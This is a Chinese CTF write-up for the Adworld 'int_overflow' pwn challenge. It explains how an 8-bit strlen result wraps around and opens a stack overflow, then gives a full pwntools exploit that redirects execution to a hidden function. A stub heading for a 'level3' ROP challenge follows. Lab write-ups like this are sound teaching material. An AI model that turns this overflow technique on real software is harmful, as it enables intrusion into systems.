 Ubuntu

## **[工具]**

gdb、objdump、python、pwntools, IDA

## **[过程分析]**

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/int_overflow/pic/1.png)

- read 函数处可以进行溢出，但是需要经过 check_passwd 函数才能将跳出login。现在再看一下 check_passwd 函数内部，

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/int_overflow/pic/2.png)有一个疑似可能造成整数溢出的一个点，我们再看一下此处的汇编代码。

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/int_overflow/pic/3.png)call strlen 之后 返回值放在了al寄存器中，这是一个八位的积存器，也就是说如果 s 字符串的长度 大于255 就会造成 整数溢出。

那我们利用这个漏洞干什么呢，我们需要进到else里，将 read 读进来的 s 复制到 dest 中，是一个可以利用的栈溢出。

现在我们知道了可以通过整数溢出到达 栈溢出漏洞，修改程序执行流，使程序跳转到 what_is_this 中。

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/int_overflow/pic/4.png)这样我们可以构造payload：

```
payload = 'a'*24 + p32(addr_whatisthis)` `payload = payload.ljust(261,"a")
```

完整payload：

```python
from pwn import *
p = process("./int_overflow")
p.sendlineafter("choice:","1") 
p.sendlineafter("username:\n","YmCold")
payload = "" 
payload += "A"*24 
payload += p32(0x804868b) 
payload = payload.ljust(261,"A")
p.sendlineafter("passwd:\n",payload) 
print p.recvall() 
```

# 攻防世界: level3

## **[目标]**

stack overflow,ROP

## **[环境]**

Ubuntu

## **[工具]**
